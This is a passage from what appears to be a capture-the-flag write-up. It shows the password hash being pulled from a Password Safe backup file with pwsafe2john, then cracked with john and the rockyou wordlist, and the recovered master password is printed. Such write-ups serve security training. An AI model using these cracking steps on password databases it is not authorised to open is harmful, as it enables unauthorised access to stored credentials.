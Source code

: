  <img src="./screenshots/password_safe.png" alt="password_safe" />
</p>

> Extract the password hash via `john` and run a dictionary brute force:

```bash

pwsafe2john Backup.psafe3 | sudo tee -a pwsf_hash.txt
[sudo] password for sonyahack1:
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050

```
```bash

john --wordlist=/usr/share/wordlists/rockyou.txt pwsf_hash.txt

tekieromucho     (Backu)

```
> We have the password for the `.psafe` file -  `tekieromucho`. Connecting to the database:

<p align="center">